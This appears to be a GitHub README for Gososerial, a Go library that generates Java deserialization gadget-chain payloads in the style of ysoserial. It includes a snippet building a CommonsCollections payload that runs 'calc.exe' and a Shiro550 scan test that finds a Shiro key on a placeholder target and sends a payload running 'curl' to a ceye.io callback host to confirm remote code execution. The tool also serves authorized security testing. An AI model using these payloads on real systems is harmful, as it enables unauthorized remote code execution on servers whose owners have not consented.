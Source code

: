 # Gososerial

## Introduce

- Ysoserial is a well-known tool for Java deserialization security

- No Java environment and no need to download ysoserial.jar file

- Enter the command to directly obtain the payload, which is convenient for writing security tools

## Quick Start

```shell
go get github.com/JimmyWA/Gososerial
```

```go
package main

import gososerial "github.com/JimmyWA/gososerial"

func main()  {
	payload := gososerial.GetCC1("calc.exe")
	......
	sendPayload(payload)
	......
}
```

Shiro550 Scan Code

```go
......
func TestFindShiro(t *testing.T) {
	target := "http://a.b.c.d:8080/"
	key := shiro.CheckShiroKey(target)
	if key != "" {
		log.Info("find key: %s", key)
	}
	payload := gososerial.GetCC5("curl xxxxx.ceye.io")
	shiro.SendPayload(key, payload, target)
}
......
```

## Reference

**4ra1n**: https://github.com/4ra1n

**ysoserial**: https://github.com/frohoff/ysoserial

**xray**: https://github.com/chaitin/xray

**phith0n**: https://github.com/phith0n
